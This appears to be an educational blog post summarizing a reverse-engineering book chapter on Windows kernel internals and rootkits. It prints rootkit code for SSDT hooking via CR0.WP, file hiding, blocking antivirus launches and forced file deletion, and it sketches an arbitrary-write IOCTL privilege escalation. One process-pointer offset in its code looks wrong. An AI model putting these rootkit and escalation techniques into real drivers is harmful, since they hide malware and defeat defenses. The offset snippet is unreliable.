

Welcome to the third chapter of our deep-dive series covering **"Practical Reverse Engineering"** by **Bruce Dang, Alexandre Gazet, Elias Bachaalany, and Sébastien Josse** (Wiley, 2014).

In the Windows operating system, the boundary between user mode (Ring 3) and kernel mode (Ring 0) represents the ultimate security frontier. While user-mode applications run inside virtualized, unprivileged sandboxes with private address spaces, kernel-mode code executes with total processor authority. A single flaw in a third-party kernel driver (`.sys`) can compromise the entire operating system, bypass endpoint detection and response (EDR) sensors, or induce an immediate Blue Screen of Death (BSOD).

In this chapter, we dissect the internal mechanics of the **Windows Kernel**: processor control regions (`KPCR`/`KPRCB`), system call dispatching via `KiSystemCall64` and the SSDT, Interrupt Request Levels (`IRQL`), pool memory allocators, I/O Request Packet (`IRP`) flow, device driver architectures, IOCTL buffering mechanisms, the in-depth reverse engineering of **Sample A (x86 Rootkit)** and **Sample B (x64 Rootkit)**, and solutions to all chapter exercises.

---

### Series Navigation

| **Previous Chapter** | **Current Chapter** | **Next Chapter** |
| :---: | :---: | :---: |
| [Chapter 2: ARM Architecture & Assembly](/posts/practical-reverse-engineering-chapter-2/) | **Chapter 3: The Windows Kernel & Rootkits** | [Chapter 4: Windows Debugging & Automation](/posts/practical-reverse-engineering-chapter-4/) |

---

## Key Takeaways

* **The Virtual Address Space Split**: Windows partitions virtual memory into user space and kernel space. On 32-bit systems, this defaults to a 2GB/2GB split (or 3GB/1GB with the `/3GB` boot flag). On 64-bit systems, memory is mapped into canonical lower (user: `0x00000000'00000000` to `0x00007FFF'FFFFFFFF`) and canonical upper (kernel: `0xFFFF8000'00000000` to `0xFFFFFFFF'FFFFFFFF`) ranges separated by an unmapped 16-exabyte non-canonical gap.
* **Per-Processor Control Blocks**: Each logical CPU core possesses an independent `KPCR` (Kernel Processor Control Region) and `KPRCB` (Kernel Processor Control Block). On x86, the `FS` segment points to the KPCR; on x64, the `GS` register points to the KPCR via the `SWAPGS` instruction.
* **System Call Transition**: System calls bridge Ring 3 and Ring 0. Userspace invokes `syscall` (x64) or `sysenter` (x86), which reads the MSR `IA32_LSTAR` (`0xC0000082`) to branch into `KiSystemCall64`. The kernel looks up the routine in the System Service Descriptor Table (`KeServiceDescriptorTable`).
* **The Golden Rule of IRQL**: Windows enforces strict Interrupt Request Levels (0 to 31). At `DISPATCH_LEVEL` (IRQL 2) or higher, the thread scheduler is inactive and page faults cannot be serviced. Accessing paged memory or performing blocking waits at or above `DISPATCH_LEVEL` results in an immediate `IRQL_NOT_LESS_OR_EQUAL` (`0x0A`) bugcheck.
* **IOCTL Buffering Pitfalls**: Driver communication via `METHOD_NEITHER` passes raw user-mode pointers directly into the driver without validation. Failure to wrap access in `ProbeForRead`/`ProbeForWrite` inside a `__try/__except` structured exception handling block creates critical Local Privilege Escalation (LPE) vulnerabilities.
* **Kernel Hooking Evolution**: On x86, rootkits modified the SSDT or hooked IDT stubs by clearing the `CR0.WP` (Write Protect) bit. On x64, **Kernel Patch Protection (PatchGuard / KPP)** periodically validates kernel data structures, forcing modern adversaries toward supported kernel callbacks, filter drivers, or Bring Your Own Vulnerable Driver (BYOVD) attacks.

---

## 1. Processor Initialization: KPCR and KPRCB

To manage multi-core scheduling, interrupt handling, and thread tracking, the Windows kernel allocates two core control structures per logical processor:

1. **`KPCR` (Kernel Processor Control Region)**: Hardware-specific state including the Interrupt Descriptor Table (`IDT`), Global Descriptor Table (`GDT`), and Task State Segment (`TSS`).
2. **`KPRCB` (Kernel Processor Control Block)**: OS scheduling state embedded within the KPCR, containing the current thread (`CurrentThread`), next thread (`NextThread`), idle thread, and DPC dispatch queues.

```
       x86 Architecture                     x64 Architecture
+-----------------------------+      +-----------------------------+
| FS:[0x00] -> Exception Frame|      | GS:[0x00] -> KPCR Self Ptr  |
| FS:[0x1C] -> KPCR Self Ptr  |      | GS:[0x18] -> KPRCB Ptr      |
| FS:[0x20] -> KPRCB Ptr      |      | GS:[0x188]-> Current ETHREAD|
| FS:[0x124]-> Current ETHREAD|      +-----------------------------+
+-----------------------------+
```

```c
// Recovering current thread in x64 assembly / C intrinsics
#include <intrin.h>

PKTHREAD pCurrentThread = (PKTHREAD)__readgsqword(0x188);
PEPROCESS pCurrentProcess = (PEPROCESS)__readgsqword(0x188 + 0xB8); // IoGetInitialProcess / ApcState.Process
```

---

## 2. System Call Dispatching: The SSDT

When a user-mode application calls a Windows API (such as `NtCreateFile` in `ntdll.dll`), the transition to Ring 0 occurs through the system call dispatcher:



### The Service Descriptor Table Architecture

The global array `KeServiceDescriptorTable` contains pointers to service descriptors:
* **Table 0 (`ntoskrnl.exe`)**: Core executive and kernel APIs (process, file, memory management).
* **Table 1 (`win32k.sys`)**: GUI, windowing, and GDI APIs (accessible via `KeServiceDescriptorTableShadow`).

```c
typedef struct _SERVICE_DESCRIPTOR_TABLE {
    PULONG_PTR ServiceTableBase;    // Pointer to array of function addresses
    PULONG ServiceCounterTableBase; // Syscall invocation counter
    ULONG NumberOfServices;         // Total system calls exported
    PUCHAR ParamTableBase;          // Array storing parameter byte counts
} SERVICE_DESCRIPTOR_TABLE, *PSERVICE_DESCRIPTOR_TABLE;

extern PSERVICE_DESCRIPTOR_TABLE KeServiceDescriptorTable;
```

---

## 3. Interrupt Request Levels (IRQL)

The Windows kernel arbitrates execution priority using **IRQLs**:

```
IRQL Level    Name               Operations Allowed / Restrictions
-----------------------------------------------------------------------------
31            HIGH_LEVEL         Machine Check, Power Management, Profiling
28 - 29       CLOCK / IPI        Inter-Processor Interrupts, System Clock
3 - 26        DIRQL              Device Interrupt Service Routines (ISRs)
-----------------------------------------------------------------------------
2             DISPATCH_LEVEL     Thread Scheduler, DPCs.
                                 * NO Page Faults allowed (BugCheck 0x0A)
                                 * Non-Paged Pool memory ONLY
                                 * NO blocking waits (KeWaitForSingleObject)
-----------------------------------------------------------------------------
1             APC_LEVEL          Asynchronous Procedure Calls. Page I/O.
0             PASSIVE_LEVEL      Normal thread execution. All APIs permitted.
```

> [!CAUTION]
> Attempting to touch pageable code, dereference a paged-pool pointer, or invoke a function that waits on an event at `IRQL >= DISPATCH_LEVEL` triggers bugcheck `0x0000000A: IRQL_NOT_LESS_OR_EQUAL`.

---

## 4. Kernel Memory Management: Pools and MDLs

### 4.1 Paged vs. Non-Paged Pools

* **Non-Paged Pool (`NonPagedPoolNX`)**: Memory guaranteed to reside permanently in physical RAM. Can be accessed at **any IRQL** without page faults. Used for ISRs, DPCs, spinlocks, and driver dispatch tables.
* **Paged Pool (`PagedPool`)**: Virtual memory that can be paged out to disk when system RAM is low. Can **only** be accessed at `IRQL < DISPATCH_LEVEL`.

### 4.2 Memory Descriptor Lists (MDL)

An **MDL** describes physical memory pages backing a virtual buffer. Drivers utilize MDLs to lock user-mode memory pages into RAM and map them into kernel space for direct zero-copy access:

```c
// Zero-copy mapping of user-mode buffer into kernel space
PMDL pMdl = IoAllocateMdl(UserBuffer, BufferLength, FALSE, FALSE, NULL);
if (pMdl) {
    __try {
        // Lock physical pages in RAM
        MmProbeAndLockPages(pMdl, UserMode, IoWriteAccess);
        
        // Map locked physical pages into kernel virtual space
        PVOID KernelSafeMapping = MmMapLockedPagesSpecifyCache(
            pMdl,
            KernelMode,
            MmCached,
            NULL,
            FALSE,
            NormalPagePriority
        );
        
        // Safely manipulate KernelSafeMapping...
        
        MmUnlockPages(pMdl);
    }
    __except (EXCEPTION_EXECUTE_HANDLER) {
        // Handle access violation safely
    }
    IoFreeMdl(pMdl);
}
```

---

## 5. Kernel Data Structures & Doubly-Linked Lists

Windows tracks processes (`EPROCESS`), threads (`ETHREAD`), and device queues using circular doubly-linked lists defined by `LIST_ENTRY`:

```c
typedef struct _LIST_ENTRY {
   struct _LIST_ENTRY *Flink; // Forward Link
   struct _LIST_ENTRY *Blink; // Backward Link
} LIST_ENTRY, *PLIST_ENTRY;
```

### The `CONTAINING_RECORD` Macro

Because `LIST_ENTRY` structures are embedded directly inside data structures (rather than storing pointers to them), Windows provides the `CONTAINING_RECORD` macro to compute the parent structure base:

```c
#define CONTAINING_RECORD(address, type, field) \
    ((type *)((ULONG_PTR)(address) - (ULONG_PTR)(&((type *)0)->field)))
```

```
+------------------------------------+ <-- EPROCESS Base Pointer
| UniqueProcessId (PID)              |
| DirectoryTableBase (CR3)           |
| ...                                |
| ActiveProcessLinks:                |
|   +----------------------------+   |
|   | Flink (points to next)     |   | <-- PLIST_ENTRY Node
|   | Blink (points to previous) |   |
|   +----------------------------+   |
| ImageFileName ("malware.exe")      |
+------------------------------------+
```

---

## 6. IRP Mechanics and Driver Architecture

### 6.1 Driver Object Hierarchy

Every Windows kernel driver exports an initialization entry point `DriverEntry`:

```c
NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
    // Register Dispatch Entry Points
    DriverObject->MajorFunction[IRP_MJ_CREATE]         = DispatchCreate;
    DriverObject->MajorFunction[IRP_MJ_CLOSE]          = DispatchClose;
    DriverObject->MajorFunction[IRP_MJ_READ]           = DispatchRead;
    DriverObject->MajorFunction[IRP_MJ_WRITE]          = DispatchWrite;
    DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = DispatchDeviceControl;
    DriverObject->DriverUnload                         = DriverUnload;

    // Create Device Object
    UNICODE_STRING devName, symLink;
    RtlInitUnicodeString(&devName, L"\\Device\\MyDevice");
    RtlInitUnicodeString(&symLink, L"\\DosDevices\\MyDevice");

    PDEVICE_OBJECT DeviceObject = NULL;
    IoCreateDevice(DriverObject, sizeof(DEVICE_EXTENSION), &devName, FILE_DEVICE_UNKNOWN, 0, FALSE, &DeviceObject);
    IoCreateSymbolicLink(&symLink, &devName);

    return STATUS_SUCCESS;
}
```

### 6.2 IOCTL Buffering Mechanisms

When user mode calls `DeviceIoControl`, parameters are transferred using one of four mechanisms defined in `CTL_CODE(DeviceType, Function, Method, Access)`:

| IOCTL Method | Buffer Handling in Kernel | Security Considerations |
| :--- | :--- | :--- |
| **`METHOD_BUFFERED`** | System allocates intermediary non-paged buffer (`Irp->AssociatedIrp.SystemBuffer`). Copies input from userland, and copies output back on completion. | **Safe**. Overhead from double copying large buffers. |
| **`METHOD_IN_DIRECT` / `METHOD_OUT_DIRECT`** | Locks user memory buffer with an MDL (`Irp->MdlAddress`). Zero-copy physical memory access. | **Fast & Safe**. Pages locked in RAM during I/O. |
| **`METHOD_NEITHER`** | Passes raw user-mode pointers directly in `Parameters.DeviceIoControl.Type3InputBuffer` and `Irp->UserBuffer`. | **Dangerous**. Must probe with `ProbeForRead`/`ProbeForWrite` under SEH. Vulnerable to Double-Fetch and TOCTOU bugs. |

---

## 7. Walk-Through 1: Sample A (The x86 SSDT Rootkit)

Let us dissect the Chapter 3 walk-through of **Sample A**, a stealth x86 Windows rootkit.

### 7.1 Defeating Hardware Write Protection (CR0.WP)

To overwrite function pointers within the read-only `KeServiceDescriptorTable`, Sample A disables the CPU Write-Protect flag:

```nasm
; Disable CR0.WP (Bit 16)
mov eax, cr0
and eax, not 00010000h   ; Clear bit 16
mov cr0, eax

; Overwrite target pointer in KiServiceTable
mov dword ptr [esi], offset HookedNtOpenProcess

; Restore CR0.WP
mov eax, cr0
or  eax, 00010000h       ; Set bit 16
mov cr0, eax
```

Alternatively, stealth rootkits avoid modifying `CR0` by mapping the physical address of the SSDT through an MDL with `PAGE_EXECUTE_READWRITE` permissions.

### 7.2 Hooking `NtQueryDirectoryFile` to Hide Files

Sample A intercepts `NtQueryDirectoryFile` to filter directory listings:

```c
NTSTATUS HookedNtQueryDirectoryFile(
    HANDLE FileHandle,
    HANDLE Event,
    PIO_APC_ROUTINE ApcRoutine,
    PVOID ApcContext,
    PIO_STATUS_BLOCK IoStatusBlock,
    PVOID FileInformation,
    ULONG Length,
    FILE_INFORMATION_CLASS FileInformationClass,
    BOOLEAN ReturnSingleEntry,
    PUNICODE_STRING FileName,
    BOOLEAN RestartScan)
{
    // 1. Invoke original system call
    NTSTATUS status = RealNtQueryDirectoryFile(
        FileHandle, Event, ApcRoutine, ApcContext, IoStatusBlock,
        FileInformation, Length, FileInformationClass, ReturnSingleEntry,
        FileName, RestartScan);

    // 2. Filter output if query succeeded and matches FileBothDirectoryInformation
    if (NT_SUCCESS(status) && FileInformationClass == FileBothDirectoryInformation) {
        PFILE_BOTH_DIR_INFORMATION current = (PFILE_BOTH_DIR_INFORMATION)FileInformation;
        PFILE_BOTH_DIR_INFORMATION prev = NULL;

        while (current) {
            // Check for rootkit file prefix "rootkit_"
            if (wcsncmp(current->FileName, L"rootkit_", 8) == 0) {
                if (prev) {
                    if (current->NextEntryOffset != 0) {
                        prev->NextEntryOffset += current->NextEntryOffset;
                    } else {
                        prev->NextEntryOffset = 0;
                    }
                } else {
                    if (current->NextEntryOffset != 0) {
                        // Shift entire buffer forward to conceal first entry
                        RtlMoveMemory(current, (PUCHAR)current + current->NextEntryOffset, Length - current->NextEntryOffset);
                        continue;
                    } else {
                        status = STATUS_NO_MORE_FILES;
                        break;
                    }
                }
            } else {
                prev = current;
            }
            if (current->NextEntryOffset == 0) break;
            current = (PFILE_BOTH_DIR_INFORMATION)((PUCHAR)current + current->NextEntryOffset);
        }
    }
    return status;
}
```

---

## 8. Walk-Through 2: Sample B (The x64 Kernel Driver)

On 64-bit Windows, **PatchGuard (KPP)** prevents SSDT modification. Sample B achieves persistence and stealth using documented kernel notification callbacks and direct IRP construction.

### 8.1 Process Callbacks via `PsSetCreateProcessNotifyRoutineEx`

```c
NTSTATUS RegisterProcessMonitor()
{
    // Supported, PatchGuard-compliant callback mechanism
    return PsSetCreateProcessNotifyRoutineEx(ProcessNotifyCallbackEx, FALSE);
}

VOID ProcessNotifyCallbackEx(
    PEPROCESS Process,
    HANDLE ProcessId,
    PPS_CREATE_NOTIFY_INFO CreateInfo)
{
    if (CreateInfo) {
        // Process creation event: inspect image name and command line
        if (wcsstr(CreateInfo->ImageFileName->Buffer, L"antivirus.exe")) {
            // Block process launch by returning an error status
            CreateInfo->CreationStatus = STATUS_ACCESS_DENIED;
        }
    } else {
        // Process termination event: cleanup state
    }
}
```

### 8.2 Direct File Deletion via Raw IRP Crafting

To delete locked system files without being blocked by file system minifilter drivers, Sample B allocates and sends its own IRP directly to the underlying volume device:

```c
NTSTATUS ForceDeleteFile(PDEVICE_OBJECT VolumeDeviceObject, PFILE_OBJECT FileObject)
{
    PIRP pIrp = IoAllocateIrp(VolumeDeviceObject->StackSize, FALSE);
    if (!pIrp) return STATUS_INSUFFICIENT_RESOURCES;

    PIO_STACK_LOCATION pStack = IoGetNextIrpStackLocation(pIrp);
    pStack->MajorFunction = IRP_MJ_SET_INFORMATION;
    pStack->FileObject = FileObject;
    pStack->Parameters.SetFile.FileInformationClass = FileDispositionInformation;
    pStack->Parameters.SetFile.Length = sizeof(FILE_DISPOSITION_INFORMATION);

    FILE_DISPOSITION_INFORMATION dispInfo;
    dispInfo.DeleteFile = TRUE;
    pIrp->AssociatedIrp.SystemBuffer = &dispInfo;

    KEVENT event;
    KeInitializeEvent(&event, NotificationEvent, FALSE);
    IoSetCompletionRoutine(pIrp, GenericCompletionRoutine, &event, TRUE, TRUE, TRUE);

    NTSTATUS status = IoCallDriver(VolumeDeviceObject, pIrp);
    if (status == STATUS_PENDING) {
        KeWaitForSingleObject(&event, Executive, KernelMode, FALSE, NULL);
        status = pIrp->IoStatus.Status;
    }

    IoFreeIrp(pIrp);
    return status;
}
```

---

## 9. Chapter 3 Exercises: Complete Solutions & Analysis

### Exercise 1: Reversing an Insecure IOCTL Handler

**Question**: The following decompiled IOCTL handler runs in a third-party antivirus driver. Identify the vulnerability and write a proof-of-concept exploit trigger:
```c
NTSTATUS InsecureDispatchDeviceControl(PDEVICE_OBJECT DeviceObject, PIRP Irp)
{
    PIO_STACK_LOCATION irpSp = IoGetCurrentIrpStackLocation(Irp);
    ULONG ioctl = irpSp->Parameters.DeviceIoControl.IoControlCode;
    PVOID inBuffer = irpSp->Parameters.DeviceIoControl.Type3InputBuffer;
    ULONG inLength = irpSp->Parameters.DeviceIoControl.InputBufferLength;
    PVOID outBuffer = Irp->UserBuffer;

    if (ioctl == 0x222003) {
        // METHOD_NEITHER handler
        ULONG_PTR targetAddress = *(ULONG_PTR*)inBuffer;
        ULONG_PTR valueToWrite = *((ULONG_PTR*)inBuffer + 1);
        
        *(ULONG_PTR*)targetAddress = valueToWrite; // Arbitrary write!
        Irp->IoStatus.Status = STATUS_SUCCESS;
    }
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return STATUS_SUCCESS;
}
```

**Solution**:
1. **Vulnerability Analysis**:
   * The IOCTL is configured with `METHOD_NEITHER` (`IoControlCode & 3 == 3`).
   * The driver directly dereferences `inBuffer` without checking if it is a valid user-mode address or wrapping it in `__try/__except`.
   * It takes an address provided by userspace (`targetAddress`) and writes an arbitrary value into it: **Arbitrary Kernel Memory Write What-Where Primitive**.
2. **Exploitation**: An attacker in Ring 3 can pass the address of a function pointer or the security token in `EPROCESS` (`Token` field) and overwrite it with the `SYSTEM` token (`PID 4`), achieving instantaneous Local Privilege Escalation (LPE) to `NT AUTHORITY\SYSTEM`.

### Exercise 2: Direct Kernel Object Modification (DKOM) Detection

**Question**: Malware unlinks its process from `ActiveProcessLinks` inside `EPROCESS` to hide from Task Manager. How can an incident responder or EDR detect the unlinked process?

**Solution**:
1. **Thread Scanning**: While the process is removed from `ActiveProcessLinks`, its threads must remain queued in the scheduler to execute. An analyst can traverse:
   * The processor's scheduling queues in `KPRCB` (`DispatcherReadyListHead`).
   * The global thread list or scan physical memory for `ETHREAD` structures. Each `ETHREAD` contains a backpointer to its owning `EPROCESS` (`ETHREAD.ThreadsProcess`).
2. **Handle Table Scanning**: The handles opened by or targeting the hidden process remain registered in `PspCidTable`.
3. **Paging CR3 Tracking**: The process retains its unique page directory base address (`CR3`).

---

## Conclusion & Next Steps

In this chapter, we unpacked the Windows kernel architecture: processor control regions, system call dispatching, IRQL constraints, IRP handling, and rootkit techniques across x86 and x64.

In [**Chapter 4: Windows Debugging & Automation**](/posts/practical-reverse-engineering-chapter-4/), we transition into dynamic analysis: mastering WinDbg, conditional breakpoints, pseudo-registers, DbgEng scripting, automated unpacking of protectors like UPX, and writing custom debugger extensions.

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
